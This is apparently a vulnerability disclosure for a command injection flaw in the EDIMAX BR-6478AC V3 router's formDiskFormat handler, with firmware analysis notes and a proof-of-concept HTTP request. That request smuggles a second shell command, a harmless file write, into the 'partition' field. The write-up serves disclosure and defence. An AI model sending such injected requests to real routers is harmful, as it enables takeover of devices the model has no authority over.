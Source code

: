 # EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0045c97c function and systype in /bin/boa
## Firmware
**brand**:edimax  
**product**:AC1200 Wave 2 Dual-Band Gigabit Router  
**version**:BR-6478AC V3 1.0.15

The firmware can be downloaded in this website[1] and using FirmAE to simulate the router environment.   
The result of simulating as follows: 
![alt text](image-6.png)
using ghidra we can konw the relate function name is formDiskFormat
![alt text](image-4.png)


## analyze
Using ghidra we can konw that the post parameter "partition" will be sprintf as the second input parameter which will be executed
![alt text](image-7.png)
The details of the function as follows:

**addr**:0045ca18  
**function**: FUN_0045c97c   
**parameter**:systype,partition


# poc
burp suite change the packet as follow
```
POST /boafrm/formDiskFormat HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 82

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/diskformat.htm

Cookie: webuicookie=16041636021804289383

Upgrade-Insecure-Requests: 1



Apply+Changes=Apply+Changes&submit_url=%2Fdiskinfo.htm&systype=ext2&partition=sda1/n echo 123 > /tmp/poc.txt
```
the result of POC is as follows, you can find the /tmp/poc.txt was created after poc
![alt text](image-3.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
